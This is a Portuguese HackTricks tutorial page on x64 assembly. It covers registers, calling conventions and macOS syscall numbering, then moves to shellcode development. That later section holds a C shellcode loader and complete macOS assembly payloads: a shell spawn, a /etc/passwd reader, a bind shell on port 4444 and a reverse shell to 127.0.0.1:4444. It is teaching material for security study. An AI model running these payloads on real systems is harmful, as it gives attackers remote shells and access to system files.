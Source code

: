 # Introdução ao x64

<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

- Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
- Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
- Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
- **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
- **Compartilhe seus truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>

## **Introdução ao x64**

x64, também conhecido como x86-64, é uma arquitetura de processador de 64 bits predominantemente usada em computadores desktop e servidores. Originária da arquitetura x86 produzida pela Intel e posteriormente adotada pela AMD com o nome AMD64, é a arquitetura prevalente em computadores pessoais e servidores hoje.

### **Registradores**

O x64 expande a arquitetura x86, apresentando **16 registradores de propósito geral** rotulados como `rax`, `rbx`, `rcx`, `rdx`, `rbp`, `rsp`, `rsi`, `rdi` e `r8` a `r15`. Cada um desses pode armazenar um valor de **64 bits** (8 bytes). Esses registradores também possuem sub-registradores de 32 bits, 16 bits e 8 bits para compatibilidade e tarefas específicas.

1. **`rax`** - Tradicionalmente usado para **valores de retorno** de funções.
2. **`rbx`** - Frequentemente usado como um **registrador base** para operações de memória.
3. **`rcx`** - Comumente usado como **contadores de loop**.
4. **`rdx`** - Usado em vários papéis, incluindo operações aritméticas estendidas.
5. **`rbp`** - **Ponteiro base** para o quadro da pilha.
6. **`rsp`** - **Ponteiro de pilha**, mantendo o controle do topo da pilha.
7. **`rsi`** e **`rdi`** - Usados para índices de **origem** e **destino** em operações de string/memória.
8. **`r8`** a **`r15`** - Registradores de propósito geral adicionais introduzidos no x64.

### **Convenção de Chamada**

A convenção de chamada x64 varia entre sistemas operacionais. Por exemplo:

- **Windows**: Os primeiros **quatro parâmetros** são passados nos registradores **`rcx`**, **`rdx`**, **`r8`** e **`r9`**. Parâmetros adicionais são empurrados para a pilha. O valor de retorno está em **`rax`**.
- **System V (comumente usado em sistemas semelhantes ao UNIX)**: Os primeiros **seis parâmetros inteiros ou de ponteiro** são passados nos registradores **`rdi`**, **`rsi`**, **`rdx`**, **`rcx`**, **`r8`** e **`r9`**. O valor de retorno também está em **`rax`**.

Se a função tiver mais de seis entradas, o **restante será passado na pilha**. O **RSP**, o ponteiro de pilha, deve estar **alinhado em 16 bytes**, o que significa que o endereço para o qual ele aponta deve ser divisível por 16 antes de qualquer chamada acontecer. Isso significa que normalmente precisaríamos garantir que o RSP esteja devidamente alinhado em nosso shellcode antes de fazer uma chamada de função. No entanto, na prática, as chamadas de sistema funcionam muitas vezes mesmo se esse requisito não for atendido.

### Convenção de Chamada em Swift

Swift tem sua própria **convenção de chamada** que pode ser encontrada em [**https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64**](https://github.com/apple/swift/blob/main/docs/ABI/CallConvSummary.rst#x86-64)

### **Instruções Comuns**

As instruções x64 possuem um conjunto rico, mantendo a compatibilidade com instruções x86 anteriores e introduzindo novas.

- **`mov`**: **Move** um valor de um **registrador** ou **local de memória** para outro.
  - Exemplo: `mov rax, rbx` — Move o valor de `rbx` para `rax`.
- **`push`** e **`pop`**: Empurra ou retira valores da **pilha**.
  - Exemplo: `push rax` — Empurra o valor em `rax` para a pilha.
  - Exemplo: `pop rax` — Retira o valor do topo da pilha para `rax`.
- **`add`** e **`sub`**: Operações de **adição** e **subtração**.
  - Exemplo: `add rax, rcx` — Adiciona os valores em `rax` e `rcx`, armazenando o resultado em `rax`.
- **`mul`** e **`div`**: Operações de **multiplicação** e **divisão**. Observação: essas têm comportamentos específicos em relação ao uso do operando.
- **`call`** e **`ret`**: Usados para **chamar** e **retornar de funções**.
- **`int`**: Usado para acionar uma **interrupção de software**. Por exemplo, `int 0x80` era usado para chamadas de sistema no Linux x86 de 32 bits.
- **`cmp`**: **Compara** dois valores e define as flags da CPU com base no resultado.
  - Exemplo: `cmp rax, rdx` — Compara `rax` com `rdx`.
- **`je`, `jne`, `jl`, `jge`, ...**: Instruções de **salto condicional** que alteram o fluxo de controle com base nos resultados de um `cmp` ou teste anterior.
  - Exemplo: Após uma instrução `cmp rax, rdx`, `je label` — Salta para `label` se `rax` for igual a `rdx`.
- **`syscall`**: Usado para **chamadas de sistema** em alguns sistemas x64 (como Unix modernos).
- **`sysenter`**: Uma instrução otimizada de **chamada de sistema** em algumas plataformas.

### **Prólogo da Função**

1. **Empurrar o ponteiro base antigo**: `push rbp` (salva o ponteiro base do chamador)
2. **Mover o ponteiro de pilha atual para o ponteiro base**: `mov rbp, rsp` (configura o novo ponteiro base para a função atual)
3. **Alocar espaço na pilha para variáveis locais**: `sub rsp, <tamanho>` (onde `<tamanho>` é o número de bytes necessário)

### **Epílogo da Função**

1. **Mover o ponteiro base atual para o ponteiro de pilha**: `mov rsp, rbp` (desalocar variáveis locais)
2. **Retirar o ponteiro base antigo da pilha**: `pop rbp` (restaura o ponteiro base do chamador)
3. **Retornar**: `ret` (retorna o controle ao chamador)

## macOS

### Chamadas de sistema

Existem diferentes classes de chamadas de sistema, você pode [**encontrá-las aqui**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/osfmk/mach/i386/syscall\_sw.h)**:**
```c
#define SYSCALL_CLASS_NONE	0	/* Invalid */
#define SYSCALL_CLASS_MACH	1	/* Mach */
#define SYSCALL_CLASS_UNIX	2	/* Unix/BSD */
#define SYSCALL_CLASS_MDEP	3	/* Machine-dependent */
#define SYSCALL_CLASS_DIAG	4	/* Diagnostics */
#define SYSCALL_CLASS_IPC	5	/* Mach IPC */
```
Em seguida, você pode encontrar o número de cada chamada de sistema [**neste URL**](https://opensource.apple.com/source/xnu/xnu-1504.3.12/bsd/kern/syscalls.master)**:**
```c
0	AUE_NULL	ALL	{ int nosys(void); }   { indirect syscall }
1	AUE_EXIT	ALL	{ void exit(int rval); }
2	AUE_FORK	ALL	{ int fork(void); }
3	AUE_NULL	ALL	{ user_ssize_t read(int fd, user_addr_t cbuf, user_size_t nbyte); }
4	AUE_NULL	ALL	{ user_ssize_t write(int fd, user_addr_t cbuf, user_size_t nbyte); }
5	AUE_OPEN_RWTC	ALL	{ int open(user_addr_t path, int flags, int mode); }
6	AUE_CLOSE	ALL	{ int close(int fd); }
7	AUE_WAIT4	ALL	{ int wait4(int pid, user_addr_t status, int options, user_addr_t rusage); }
8	AUE_NULL	ALL	{ int nosys(void); }   { old creat }
9	AUE_LINK	ALL	{ int link(user_addr_t path, user_addr_t link); }
10	AUE_UNLINK	ALL	{ int unlink(user_addr_t path); }
11	AUE_NULL	ALL	{ int nosys(void); }   { old execv }
12	AUE_CHDIR	ALL	{ int chdir(user_addr_t path); }
[...]
```
Portanto, para chamar a chamada de sistema `open` (**5**) da classe **Unix/BSD**, você precisa adicionar: `0x2000000`

Portanto, o número da chamada de sistema para chamar o open seria `0x2000005`

### Shellcodes

Para compilar:

{% code overflow="wrap" %}
```bash
nasm -f macho64 shell.asm -o shell.o
ld -o shell shell.o -macosx_version_min 13.0 -lSystem -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib
```
{% endcode %}

Para extrair os bytes:

{% code overflow="wrap" %}
```bash
# Code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/extract.sh
for c in $(objdump -d "shell.o" | grep -E '[0-9a-f]+:' | cut -f 1 | cut -d : -f 2) ; do
echo -n '\\x'$c
done

# Another option
otool -t shell.o | grep 00 | cut -f2 -d$'\t' | sed 's/ /\\x/g' | sed 's/^/\\x/g' | sed 's/\\x$//g'
```
{% endcode %}

<details>

<summary>Código C para testar o shellcode</summary>
```c
// code from https://github.com/daem0nc0re/macOS_ARM64_Shellcode/blob/master/helper/loader.c
// gcc loader.c -o loader
#include <stdio.h>
#include <sys/mman.h>
#include <string.h>
#include <stdlib.h>

int (*sc)();

char shellcode[] = "<INSERT SHELLCODE HERE>";

int main(int argc, char **argv) {
printf("[>] Shellcode Length: %zd Bytes\n", strlen(shellcode));

void *ptr = mmap(0, 0x1000, PROT_WRITE | PROT_READ, MAP_ANON | MAP_PRIVATE | MAP_JIT, -1, 0);

if (ptr == MAP_FAILED) {
perror("mmap");
exit(-1);
}
printf("[+] SUCCESS: mmap\n");
printf("    |-> Return = %p\n", ptr);

void *dst = memcpy(ptr, shellcode, sizeof(shellcode));
printf("[+] SUCCESS: memcpy\n");
printf("    |-> Return = %p\n", dst);

int status = mprotect(ptr, 0x1000, PROT_EXEC | PROT_READ);

if (status == -1) {
perror("mprotect");
exit(-1);
}
printf("[+] SUCCESS: mprotect\n");
printf("    |-> Return = %d\n", status);

printf("[>] Trying to execute shellcode...\n");

sc = ptr;
sc();

return 0;
}
```
</details>

#### Shell

Retirado [**aqui**](https://github.com/daem0nc0re/macOS\_ARM64\_Shellcode/blob/master/shell.s) e explicado.

{% tabs %}
{% tab title="com adr" %}
```armasm
bits 64
global _main
_main:
call    r_cmd64
db '/bin/zsh', 0
r_cmd64:                      ; the call placed a pointer to db (argv[2])
pop     rdi               ; arg1 from the stack placed by the call to l_cmd64
xor     rdx, rdx          ; store null arg3
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% endtab %}

{% tab title="com pilha" %}
```armasm
bits 64
global _main

_main:
xor     rdx, rdx          ; zero our RDX
push    rdx               ; push NULL string terminator
mov     rbx, '/bin/zsh'   ; move the path into RBX
push    rbx               ; push the path, to the stack
mov     rdi, rsp          ; store the stack pointer in RDI (arg1)
push    59                ; put 59 on the stack (execve syscall)
pop     rax               ; pop it to RAX
bts     rax, 25           ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall
```
{% endtab %}
{% endtabs %}

#### Ler com cat

O objetivo é executar `execve("/bin/cat", ["/bin/cat", "/etc/passwd"], NULL)`, então o segundo argumento (x1) é um array de parâmetros (o que na memória significa uma pilha de endereços).
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 40         ; Allocate space on the stack similar to `sub sp, sp, #48`

lea rdi, [rel cat_path]   ; rdi will hold the address of "/bin/cat"
lea rsi, [rel passwd_path] ; rsi will hold the address of "/etc/passwd"

; Create inside the stack the array of args: ["/bin/cat", "/etc/passwd"]
push rsi   ; Add "/etc/passwd" to the stack (arg0)
push rdi   ; Add "/bin/cat" to the stack (arg1)

; Set in the 2nd argument of exec the addr of the array
mov rsi, rsp    ; argv=rsp - store RSP's value in RSI

xor rdx, rdx    ; Clear rdx to hold NULL (no environment variables)

push    59      ; put 59 on the stack (execve syscall)
pop     rax     ; pop it to RAX
bts     rax, 25 ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall         ; Make the syscall

section .data
cat_path:      db "/bin/cat", 0
passwd_path:   db "/etc/passwd", 0
```
#### Invocar comando com sh
```armasm
bits 64
section .text
global _main

_main:
; Prepare the arguments for the execve syscall
sub rsp, 32           ; Create space on the stack

; Argument array
lea rdi, [rel touch_command]
push rdi                      ; push &"touch /tmp/lalala"
lea rdi, [rel sh_c_option]
push rdi                      ; push &"-c"
lea rdi, [rel sh_path]
push rdi                      ; push &"/bin/sh"

; execve syscall
mov rsi, rsp                  ; rsi = pointer to argument array
xor rdx, rdx                  ; rdx = NULL (no env variables)
push    59                    ; put 59 on the stack (execve syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

_exit:
xor rdi, rdi                  ; Exit status code 0
push    1                     ; put 1 on the stack (exit syscall)
pop     rax                   ; pop it to RAX
bts     rax, 25               ; set the 25th bit to 1 (to add 0x2000000 without using null bytes)
syscall

section .data
sh_path:        db "/bin/sh", 0
sh_c_option:    db "-c", 0
touch_command:  db "touch /tmp/lalala", 0
```
#### Shell de ligação

Shell de ligação de [https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html](https://packetstormsecurity.com/files/151731/macOS-TCP-4444-Bind-Shell-Null-Free-Shellcode.html) na **porta 4444**
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xffffffffa3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; bind(host_sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x68
syscall

; listen(host_sockid, 2)
xor  rsi, rsi
mov  sil, 0x2
mov  rax, r8
mov  al, 0x6a
syscall

; accept(host_sockid, 0, 0)
xor  rsi, rsi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x1e
syscall

mov rdi, rax
mov sil, 0x3

dup2:
; dup2(client_sockid, 2)
;   -> dup2(client_sockid, 1)
;   -> dup2(client_sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
mov  rax, r8
mov  al, 0x3b
syscall
```
#### Shell Reverso

Shell reverso em [https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html](https://packetstormsecurity.com/files/151727/macOS-127.0.0.1-4444-Reverse-Shell-Shellcode.html). Shell reverso para **127.0.0.1:4444**
```armasm
section .text
global _main
_main:
; socket(AF_INET4, SOCK_STREAM, IPPROTO_IP)
xor  rdi, rdi
mul  rdi
mov  dil, 0x2
xor  rsi, rsi
mov  sil, 0x1
mov  al, 0x2
ror  rax, 0x28
mov  r8, rax
mov  al, 0x61
syscall

; struct sockaddr_in {
;         __uint8_t       sin_len;
;         sa_family_t     sin_family;
;         in_port_t       sin_port;
;         struct  in_addr sin_addr;
;         char            sin_zero[8];
; };
mov  rsi, 0xfeffff80a3eefdf0
neg  rsi
push rsi
push rsp
pop  rsi

; connect(sockid, &sockaddr, 16)
mov  rdi, rax
xor  dl, 0x10
mov  rax, r8
mov  al, 0x62
syscall

xor rsi, rsi
mov sil, 0x3

dup2:
; dup2(sockid, 2)
;   -> dup2(sockid, 1)
;   -> dup2(sockid, 0)
mov  rax, r8
mov  al, 0x5a
sub  sil, 1
syscall
test rsi, rsi
jne  dup2

; execve("//bin/sh", 0, 0)
push rsi
mov  rdi, 0x68732f6e69622f2f
push rdi
push rsp
pop  rdi
xor  rdx, rdx
mov  rax, r8
mov  al, 0x3b
syscall
```
<details>

<summary><strong>Aprenda hacking AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras maneiras de apoiar o HackTricks:

* Se você deseja ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF** Confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**swag oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-nos** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe seus truques de hacking enviando PRs para os** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
